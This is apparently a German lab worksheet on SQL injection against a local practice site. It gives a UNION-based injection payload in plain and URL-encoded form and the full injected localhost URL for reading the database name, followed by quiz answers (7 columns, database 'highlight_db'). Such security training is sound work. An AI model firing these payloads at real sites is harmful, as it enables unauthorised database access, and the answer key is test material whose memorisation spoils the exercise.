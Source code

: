 Beginnen Sie wie bei der vorherigen Webseite damit, den Namen der Datenbank und die Spaltenanzahl der betroffenen Tabelle herauszufinden.
Encodieren Sie Ihr Injection-Statement dazu im URL-Format und kopieren Sie es in die Adresszeile.

' AND 1=0 UNION SELECT 0,0,0,0,0,database(),0;--
'%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2Cdatabase()%2C0%3B--%20
http://localhost:82/index.php?id=2%27%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2Cdatabase()%2C0%3B--%20

>>9) Wie viele Spalten enthält die Tabelle insgesamt?<<
=== 7

>>10) Wie lautet der Name der Datenbank?<<
=== highlight_db